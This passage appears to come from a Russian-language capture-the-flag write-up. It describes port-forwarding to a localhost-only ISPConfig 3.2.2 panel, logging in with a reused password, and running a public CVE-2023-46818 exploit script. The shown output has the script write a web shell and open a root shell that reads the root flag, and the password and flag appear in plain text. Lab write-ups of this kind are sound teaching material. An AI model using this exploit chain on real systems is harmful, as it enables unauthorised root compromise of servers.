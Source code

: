 Видно, что портов открыто больше чем нашёл nmap, следовательно, доступ туда возможен только из localhost. Для того чтобы это эксплуатировать, используем проброс портов, и заходим на веб страницу с формочкой логина.

Используя логин `admin` и пароль пользователя `tobias`, можно войти внутрь и узнать, что версия ISPConfig - `3.2.2`, и на неё существуют уязвимости, в частности https://nvd.nist.gov/vuln/detail/CVE-2023-46818 , на которую уже существует скрипт: https://github.com/ajdumanhug/CVE-2023-46818 . Используем его и получим доступ к рут шеллу, который может прочитать рут флаг

```shell

$ python3 CVE-2023-46818.py http://localhost:8000 admin slowmotionapocalypse

[+] Logging in with username 'admin' and password 'slowmotionapocalypse'

[+] Login successful!

[+] Fetching CSRF tokens...

[+] CSRF ID: language_edit_c6ad8c7d67d42f365b1fde1a

[+] CSRF Key: 69a2aecd482eb59e6e3b0a62fe49c8ee9d9003a9

[+] Injecting shell payload...

[+] Shell written to: http://localhost:8000/admin/sh.php

[+] Launching shell...

  

ispconfig-shell# id

uid=0(root) gid=0(root) groups=0(root)

  

ispconfig-shell# cat /root/root.txt

675fe34c8251ae589dce5113bba579d5

```